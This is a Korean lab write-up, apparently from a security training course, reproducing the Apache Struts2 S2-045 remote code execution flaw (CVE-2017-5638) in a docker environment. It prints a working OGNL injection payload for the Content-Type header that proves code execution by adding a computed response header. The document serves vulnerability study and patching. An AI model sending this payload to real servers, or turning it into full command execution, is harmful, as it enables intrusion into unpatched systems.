 # Apache Struts2 S2-045 (CVE-2017-5638)
> 화이트햇 스쿨 3기 - [서영채(@ycseo-git)](https://github.com/ycseo-git)

<br/>

## 도움 (Help)

- Structs2는 Java 기반 웹 애플리케이션 프레임워크로, 폼 데이터 처리, 요청-응답 흐름 관리 같은 웹 개발을 쉽게 해주는 도구구다. 한때 대규모 기업, 공공기관 시스템에 널리 사용됐다.

- OGNL이란 Object-Graph Navigation Language의 약자로, Java 객체 안의 값 조회, 수정, 메소드 호출을 표현식(Expression)으로 간단하게 할 수 있게 해주는 언어다. 원래는 개발 편의를 위해 쓰였지만, 검증 없이 사용하면 코드 실행 취약점으로 이어질 수 있다.

- 요즘 Java 웹 개발은 대부분 Spring Boot/Spring MVC로 진행된다. 그러나 과거 대규모 시스템에 많이 쓰였기 때문에, 여전히 레거시 시스템(공공기관, 금융권 등)에서 Struts2 기반 서버가 운영 중일 수 있다다. 따라서 Struts2의 취약점을 알아두는 것은 충분히 당신에게 도움이 될 것이다.

<br/>

## 요약 (Summary)

- CVE-2017-5638은 Apache Struts2에서 발생한 원격 코드 실행(RCE) 취약점으로, OGNL(Object-Graph Navigation Language)을 처리하는 방식에서 발생한다.

- 사용자가 제공한 Content-Type 헤더에 포함된 OGNL 표현식을 제대로 검증하지 않아, 악의적인 사용자가 서버에서 임의의 코드를 실행할 수 있다.

- 영향을 받는 버전 (Affected Versions)은 `Struts 2.3.5` - `Struts 2.3.31`, `Struts 2.5` - `Struts 2.5.10`이다.

- 이 취약점은 `Struts2 2.3.32` 및 `2.5.10.1` 버전에서 수정되었다. 따라서 이 이상의 버전으로 업데이트해 취약점을 제거할 수 있다.

<br/>

## 환경 구성 및 실행 (Setup and Execute)

1. `docker compose up -d`를 실행하여 Struts2 2.3.30 환경을 실행한다.

![](1.png)

![](2.png)

2. `http://your-ip:8080`에 접속하여 페이지를 확인한다.

![](3.png)

3. `python poc.py`를 실행하여 공격을 수행한다.

<br/>

## PoC

```
# Put a malicious OGML expression into the Content-Type Header
payload = "%{(#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233))}.multipart/form-data"
```

%{(#context['com.opensymphony.xwork2.dispatcherHttpServletResponse'].addHeader('vulhub',233*233))} 부분이 OGNL 표현식으로, 서버가 해당 값을 처리하여 응답 헤더에 값을 추가한다.

<br/>

## 결과 (Result)

서버의 응답에 `vulhub` 헤더가 포함되어 있고, 233*233의 결과(54289)가 전달된 것을 확인할 수 있다.

![](4.png)

<br/>

## 정리 (Conclusion)

- CVE-2017-5638은 사용자가 서버에 전달한 Content-Type 헤더 값에 삽입한 OGNL 표현식이 서버 측에서 검증 없이 실행되기 때문에 발생한다. 이로 인해 공격자가 서버에서 임의의 코드를 실행하는 것이 허용되며며, 서버 장악, 데이터 탈취, 시스템 파괴 등의의 피해로 이어질 수 있다.

- 안전한 웹 서비스 운영을 위해서는 서버 개발자가 또는 라이브러리, 프레임워크 설계자가 사용자의의 입력을 그대로 코드로 해석하지 않도록 주의해야 한다. 불필요한 코드 실행 경로를 없애거나 입력값을 무해화(Sanitization)하여 처리해야 한다.